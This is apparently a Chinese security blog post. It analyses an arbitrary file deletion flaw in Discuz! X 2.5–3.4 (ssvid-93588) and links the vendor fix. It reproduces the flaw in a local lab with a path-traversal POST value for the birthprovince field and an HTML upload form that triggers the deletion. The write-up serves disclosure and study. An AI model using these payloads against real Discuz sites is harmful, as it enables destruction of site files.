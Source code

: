```yaml
---
title: Discuz2.5-3.4任意文件操作漏洞
subtitle: ssvid-93588
summary: 该漏洞通过配置属性值，通过模拟文件上传可以进入其他 unlink 条件，实现任意文件删除
authors:
- admin
tags: ["SSV","Discuz","任意文件操作"]
categories: ["Hack"]
date: "2017-09-29T00:00:00Z"
featured: false
draft: false

# Featured image
# To use, add an image named `featured.jpg/png` to your page's folder. 
image:
  caption: ""
  focal_point: ""
projects: []
---
```


## 简介

Discuz!X社区软件，是一个采用 PHP 和 MySQL 等其他多种数据库构建的性能优异、功能全面、安全稳定的社区论坛平台。

2017年9月29日，Discuz!修复了一个安全问题用于加强安全性，这个漏洞会导致前台用户可以任意删除文件。

该漏洞于2014年6月被提交到 Wooyun漏洞平台，Seebug漏洞平台收录了该漏洞，漏洞编号 ssvid-93588。该漏洞通过配置属性值，导致任意文件删除。经过分析确认，原有的利用方式已经被修复，添加了对属性的 formtype 判断，但修复方式不完全导致可以绕过，通过模拟文件上传可以进入其他 unlink 条件，实现任意文件删除漏洞。

- 影响版本： 2.5-3.4
- 修复方案:

https://gitee.com/ComsenzDiscuz/DiscuzX/commit/7d603a197c2717ef1d7e9ba654cf72aa42d3e574

删除unlink相关代码。

## 原理

核心问题在 ==upload/source/include/spacecp/spacecp_profile.php==

跟入代码70行,当提交 ==profilesubmit== 时进入判断，跟入177行

我们发现如果满足配置文件中某个==formtype==的类型为 ==file==，我们就可以进入判断逻辑，我们接着看这次修复的改动，可以发现228行再次引入语句 ==unlink==

当上传文件并上传成功，即可进入 unlink 语句

然后回溯变量==$space[$key]==,不难发现这就是用户的个人设置。

只要找到一个可以控制的变量即可，这里选择了 ==birthprovince。==

在设置页面直接提交就可以绕过字段内容的限制了。

成功实现了任意文件删除

## 复现

环境：win7+phpstudy+discuz3.2

新建importantfile.txt作为测试

进入设置-个人资料，先在页面源代码找到formhash值


```
http://10.0.2.15:8999/discuz3_2/home.php?mod=spacecp&ac=profile
```
![](http://image.3001.net/images/20171005/15072139595386.png)

![](http://image.3001.net/images/20171005/15072139935642.png)

可以看到formhash值是b21b6577。

再访问
```
10.0.2.15:8999/discuz3_2/home.php?mod=spacecp&ac=profile&op=base
```
Post数据：
```
birthprovince=../../../importantfile.txt&profilesubmit=1&formhash=b21b6577
```


如图

![](http://image.3001.net/images/20171005/15072146208123.png)

执行后

![](http://image.3001.net/images/20171005/15072140283751.png)

出生地被修改成要删除的文件。

最后构造表单执行删除文件


```
<form action=”http://10.0.2.15:8999/discuz3_2/home.php?mod=spacecp&ac=profile&op=base” method=”POST” enctype=”multipart/form-data”>

<input type=”file” name=”birthprovince” id=”file” />

<input type=”text” name=”formhash” value=”b21b6577″/></p>

<input type=”text” name=”profilesubmit” value=”1″/></p>

<input type=”submit” value=”Submit” />

</from>
```


随便上传一张图片，即可删除importantfile.txt

![](http://image.3001.net/images/20171005/15072140588158.png)

成功删除importantfile.txt

## 修复

Discuz!X 的码云已经更新修复了该漏洞

<https://gitee.com/ComsenzDiscuz/DiscuzX/commit/7d603a197c2717ef1d7e9ba654cf72aa42d3e574>